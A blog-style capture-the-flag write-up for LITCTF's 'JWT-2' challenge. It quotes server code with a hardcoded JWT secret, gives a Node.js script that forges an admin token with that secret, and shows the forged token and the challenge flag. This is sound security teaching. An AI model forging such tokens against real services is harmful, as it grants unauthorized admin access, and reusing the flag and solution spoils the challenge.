 ```yaml
---
layout: post
title:  "JWT-2"
description: Further exploiting JSON Web Tokens
date:   2024-08-14
tags: ["Web Exploitation", "LITCTF", "JSON"]
category: [CTF,LITCTF]
---
```




# Challenge Info
`its like jwt-1 but this one is harder.
URL: http://litctf.org:31777/`

attached: [index.ts](https://drive.google.com/uc?export=download&id=18gNp6DphcZBI5UmGjKsXhCkZvF1aIB6F&name=index.ts)

![JWT-2](/assets/img/JWT-2/challenge.png)


## Preface
While this *is* a separate challenge, its fundamentals are heavily derived from the [first](/posts/jwt1) JWT challenge, which I heavily recommend you read first.


## Trying the first solution
Since this is a continuation of the **first** JWT challenge, I figured I'd try the same solution. A quick recap on how I beat the first one:

1. Register an account on the given site
2. Use Burpsuite intercept to capture the JWT associated with our account
3. Use [jwt.io](https://jwt.io) to read the contents of our JWT
4. Modify `admin` so that it equals to `true`
5. Access the "GET FLAG" button with our **new** JWT and acquire flag

For this challenge, while I **was** able to capture the JWT token and modify it to have `admin` set to `true`, upon actually using it, I was greeted with this:

![unauthorized](/assets/img/JWT-2/unauthorized.png)

## Inspecting the attached TypeScript file
By now, I realized this challenge wouldn't be as simple as the last one, so I decided to skim through the attached TypeScript file, which I'll leave down below:

```ts
import express from "express";
import cookieParser from "cookie-parser";
import path from "path";
import fs from "fs";
import crypto from "crypto";

const accounts: [string, string][] = [];

const jwtSecret = "xook";
const jwtHeader = Buffer.from(
  JSON.stringify({ alg: "HS256", typ: "JWT" }),
  "utf-8"
)
  .toString("base64")
  .replace(/=/g, "");

const sign = (payload: object) => {
  const jwtPayload = Buffer.from(JSON.stringify(payload), "utf-8")
    .toString("base64")
    .replace(/=/g, "");
    const signature = crypto.createHmac('sha256', jwtSecret).update(jwtHeader + '.' + jwtPayload).digest('base64').replace(/=/g, '');
  return jwtHeader + "." + jwtPayload + "." + signature;

}

const app = express();

const port = process.env.PORT || 3000;

app.listen(port, () =>
  console.log("server up on http://localhost:" + port.toString())
);

app.use(cookieParser());
app.use(express.urlencoded({ extended: true }));

app.use(express.static(path.join(__dirname, "site")));

app.get("/flag", (req, res) => {
  if (!req.cookies.token) {
    console.log('no auth')
    return res.status(403).send("Unauthorized");
  }

  try {
    const token = req.cookies.token;
    // split up token
    const [header, payload, signature] = token.split(".");
    if (!header || !payload || !signature) {
      return res.status(403).send("Unauthorized");
    }
    Buffer.from(header, "base64").toString();
    // decode payload
    const decodedPayload = Buffer.from(payload, "base64").toString();
    // parse payload
```
Just to highlight what this code does:

`const [header, payload, signature] = token.split(".");`
- splits the JWT token into its three parts; header, payload, and signature, and the `.` acts as a delimiter.

`if (!req.cookies.token)`
- checks if the token is missing, and responds with `403 Unauthorized` if it is.

`Buffer.from(header,"base64").toString()` `Buffer.from(payload,"base64").toString()`
- The header and payload are decoded from base64 to their original string format.


However, what's really making us hit our head is the following:
```js
const sign = (payload: object) => {
  const jwtPayload = Buffer.from(JSON.stringify(payload), "utf-8")
    .toString("base64")
    .replace(/=/g, "");
    const signature = crypto.createHmac('sha256', jwtSecret).update(jwtHeader + '.' + jwtPayload).digest('base64').replace(/=/g, '');
  return jwtHeader + "." + jwtPayload + "." + signature;
```

This removes the `=` characters from both the base64-encoded payload and signature. This is normal in JWTs though, and doesn't affect the token's validity. The main issue here isn't the removal of padding, but making sure that the token **we** craft adheres to this format.

## Solution

The payload that I came up with:

```js

const crypto = require('crypto');

const jwtSecret = "xook";
const jwtHeader = Buffer.from(
  JSON.stringify({ alg: "HS256", typ: "JWT" }),
  "utf-8"
)
  .toString("base64")
  .replace(/=/g, "");

const sign = (payload) => {
  const jwtPayload = Buffer.from(JSON.stringify(payload), "utf-8")
    .toString("base64")
    .replace(/=/g, "");
  const signature = crypto
    .createHmac("sha256", jwtSecret)
    .update(jwtHeader + "." + jwtPayload)
    .digest("base64")
    .replace(/=/g, "");
  return jwtHeader + "." + jwtPayload + "." + signature;
};

const payload = { name: "your_username", admin: true };
const forgedToken = sign(payload);
console.log(forgedToken); // This is the token you will use.
```

This payload creates a token using the `xook` secret, modifies `admin` to `true`, and removes all padding (`=` characters).

Then, I replaced the old token in Burpsuite intercept with the new one: `eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJuYW1lIjoieW91cl91c2VybmFtZSIsImFkbWluIjp0cnVlfQ.xwxnk5ogziOC8xlMNuolHBuQDbefnLA9rATCeS7fS+s`, and hit "forward".

![flag](/assets/img/JWT-2/flag.png)

flag: `LITCTF{v3rifyed_thI3_Tlme_1re4DV9}`

